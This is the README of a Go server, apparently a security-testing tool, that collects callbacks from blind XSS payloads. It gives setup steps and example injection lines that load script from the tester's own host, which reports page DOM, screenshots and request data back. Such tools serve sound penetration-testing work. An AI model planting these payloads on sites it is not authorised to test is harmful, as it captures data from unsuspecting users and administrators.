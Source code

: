 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/webwatcher
```
2. Build application
```
sudo go build -o /usr/local/bin/webwatcher main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

All files in `assets/` are publicly accessible.  
If you are running https, directory with certificates should be generated.  
## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  
This use regex `examplepath.*` so you can use `examplepathanything/after/counts.html`  

### Collecting data from blind XSS  
You can use any endpoint for testing blind XSS.  
Dont use your collector path for blind XSS, as it have priority, so no blind XSS payload will be send.  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.  
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  



